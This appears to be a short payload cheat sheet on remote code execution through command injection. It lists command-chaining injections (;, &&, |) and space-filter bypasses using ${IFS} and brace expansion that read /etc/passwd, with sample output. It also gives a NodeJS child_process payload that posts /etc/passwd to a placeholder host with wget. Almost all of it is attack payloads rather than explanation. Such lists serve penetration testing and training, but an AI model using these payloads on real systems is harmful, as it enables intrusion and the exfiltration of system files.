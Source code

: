 # Remote Code Execution
Remote code execution is a security vulnerability that allows an attacker to execute codes from a remote server.
	

## Exploits
Normal code execution, execute the command and voila :p
```
cat /etc/passwd 
root:x:0:0:root:/root:/bin/bash 
daemon:x:1:1:daemon:/usr/sbin:/bin/sh 
bin:x:2:2:bin:/bin:/bin/sh 
sys:x:3:3:sys:/dev:/bin/sh
```

Code execution by chaining commands
```
original_cmd_by_server; ls
original_cmd_by_server && ls
original_cmd_by_server | ls
```

Code execution without space
```
swissky@crashlab▸ ~ ▸ $ {cat,/etc/passwd}
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin

swissky@crashlab▸ ~ ▸ $ cat$IFS/etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin

swissky@crashlab▸ ~ ▸ $ echo${IFS}"RCE"${IFS}&&cat${IFS}/etc/passwd
RCE
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
```

NodeJS Code execution
```
require('child_process').exec('wget --post-data+"x=$(cat /etc/passwd)"+HOST')
```

## Thanks to
* 
